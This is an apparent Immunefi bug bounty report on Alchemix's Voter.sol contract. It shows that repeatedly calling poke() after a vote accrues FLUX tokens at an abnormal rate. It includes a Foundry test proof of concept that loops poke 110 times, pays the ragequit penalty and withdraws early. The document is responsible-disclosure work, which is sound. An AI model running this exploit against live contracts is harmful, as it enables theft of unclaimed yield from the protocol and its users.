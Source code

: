 
# Voter.poke() can be called at will, leading to a user accruing FLUX at an abnormal rate.

Submitted on Tue May 07 2024 15:34:31 GMT-0400 (Atlantic Standard Time) by @dirtymic for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #30906

Report type: Smart Contract

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol

Impacts:
- Theft of unclaimed yield

## Description
## Brief/Intro
After a user votes, they can call poke however many times they want. This accrues Flux each time it recasts their vote. Giving them access to either Ragequit and withdraw early or leave the unclaimed flux and max boost their future votes, as well as walk away with leftover Flux tokens.

## Vulnerability Details
Once a user votes, they cannot vote again until the next epoch. However `Voter.poke()` can be called at any time. In the `poke` function `_vote` is called.

In `_vote` there is a call to the flux token contract that accrues unclaimed Flux.

```
...
    _reset(_tokenId);

        uint256 _poolCnt = _poolVote.length;
        uint256 _totalVoteWeight = 0;
        uint256 _totalWeight = 0;

        for (uint256 i = 0; i < _poolCnt; i++) {
            _totalVoteWeight += _weights[i];
        }

        IFluxToken(FLUX).accrueFlux(_tokenId);
...
```

This accrues the unclaimed Flux balance of the _tokenId by the amount of `claimableFlux` received from the VotingEscrow.sol contract

```
function claimableFlux(uint256 _tokenId) public view returns (uint256) {
        // If the lock is expired, no flux is claimable at the current epoch
        if (block.timestamp > locked[_tokenId].end) {
            return 0;
        }

        // Amount of flux claimable is <fluxPerVeALCX> percent of the balance
        return (_balanceOfTokenAt(_tokenId, block.timestamp) * fluxPerVeALCX) / BPS;
    }
```

Poke can be called at whim after a user has voted allowing a user to accrue Flux whenever they want. The amount of Flux accrued grows in proportion to the balance of veALCX of a tokenId.

## Impact Details

A user can accrue Flux at an abnormal rate using `poke()`, this allows a user to exit from a lock within 1 epoch by calling `poke()` enough times to accrue a large enough balance to pay the Ragequit penalty. If a user were to create a lock with 1 token, vote, and then call poke 110 times. They would have enough Flux to pay the penalty and walk away with 7.5 Flux tokens.

A user also has the option to leave the unclaimed Flux and use it to max boost their future votes.


## References
Poke:
https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L194-L212
_vote:
https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L412-L455
accrueFlux:
https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/FluxToken.sol#L187-L192
claimableFlux:
https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/VotingEscrow.sol#L376-L385

        
## Proof of concept
## Proof of Concept

This was written in the provided Voting.t.sol

```
function testVoteAndPoke() public {
        uint256 tokenId = createVeAlcx(admin, TOKEN_1, MAXTIME, false);

        hevm.startPrank(admin);

        hevm.warp(block.timestamp + nextEpoch);

        address[] memory pools = new address[](1);
        pools[0] = alETHPool;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 5000;

        voter.vote(tokenId, pools, weights, 0);

        for (uint i = 0; i < 110; i++) {
            voter.poke(tokenId);
        }

        address[] memory poolVote = voter.getPoolVote(tokenId);
        assertEq(poolVote[0], alETHPool);

        uint256 penaltyAmount = veALCX.amountToRagequit(tokenId);

        flux.claimFlux(tokenId, penaltyAmount);

        flux.approve(address(veALCX), penaltyAmount);

        veALCX.startCooldown(tokenId);

        hevm.warp(block.timestamp + nextEpoch);

        voter.reset(tokenId);

        uint256 flux1 = flux.unclaimedFlux(tokenId);

        veALCX.withdraw(tokenId);

        uint256 fluxBalanceAfter = flux.balanceOf(admin);

        assertEq(fluxBalanceAfter, flux1);

        emit Message("Admin balance after withdraw", IERC20(bpt).balanceOf(admin));

    }
```